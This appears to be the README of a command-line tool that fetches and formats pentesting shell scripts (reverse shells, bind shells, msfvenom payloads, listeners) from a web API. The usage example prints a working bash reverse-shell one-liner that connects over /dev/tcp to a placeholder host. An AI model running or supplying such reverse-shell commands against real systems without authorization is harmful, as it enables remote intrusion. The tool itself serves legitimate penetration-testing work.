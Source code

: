 ## CLI Tool for interacting with Pen Tools API.
A command line interface tool for interacting with Pen Tools API. Quickly retrieve and format scripts using a simple set of commands.
### Installation 
**The package requires Python 3.7 or higher**.

Install latest version from [PyPI](https://pypi.org/project/pentools/): ```pip install pentools``` 

### Resources
[API documentation](https://pentools.herokuapp.com/docs)
### Usage
Retrieve the list of scripts based on specified category (leave blank to see all).

```
pentools list
```
*output:*
```
Available types

0. rev
1. bind
2. msf_venom
3. listener
```

Add the ```-f``` flag to see available scripts.

```
pentools list rev  -f
```
*output:*
```
Available scripts and types

0. rev
    Shell session established on a connection that is initiated from a remote machine.
        0. bash_i [id: 1]('linux', 'mac')
        1. bash_196 [id: 2]('linux', 'mac')
        2. bash_read_line [id: 3]('linux', 'mac')
        3. Bash_5 [id: 4]('linux', 'mac')
        ...
```

Retrieve and format a specific script based on id.

```
pentools script -i 1 -ho example.ip -p 12345 -s bin/bash
```
*output:*
```
---------------(code)---------------

bin/bash -i >& /dev/tcp/example.ip/12345 0>&1

-------------(end code)-------------
```


        


